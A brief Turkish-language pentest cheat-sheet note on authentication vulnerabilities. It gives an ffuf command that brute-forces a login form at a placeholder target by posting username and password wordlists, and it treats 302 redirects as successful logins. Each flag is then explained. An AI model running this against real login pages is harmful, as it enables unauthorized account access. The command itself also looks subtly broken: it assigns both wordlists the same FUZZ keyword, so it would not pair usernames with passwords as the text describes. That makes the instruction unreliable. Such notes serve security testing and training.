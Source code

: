 # Authentication Vulnerabilities (Kimlik Doğrulama Güvenlik Açıkları)

##### ffuf -u http://hedefsite.com/login -X POST -d "username=FUZZ&password=FUZZ" -w /path/to/usernames.txt -w /path/to/passwords.txt -mc 302

- Hedef URL'yi Belirleme : http://hedefsite.com/login
- usernames.txt : Kullanıcı Adı Listesi
- passwords.txt : Şifre Listesi
- -u http://hedefsite.com/login: Hedef URL.
- X POST: HTTP POST isteği kullanmak için.
- d "username=FUZZ&password=FUZZ": FUZZ yerine sırasıyla kullanıcı adı ve şifre listelerindeki değerler girilecek.
- w /path/to/usernames.txt: Kullanıcı adı listesi yolu.
- w /path/to/passwords.txt: Şifre listesi yolu.
- mc 302: 302 yönlendirmesiyle dönen başarılı girişleri gösterecektir (giriş sonrası yönlendirme).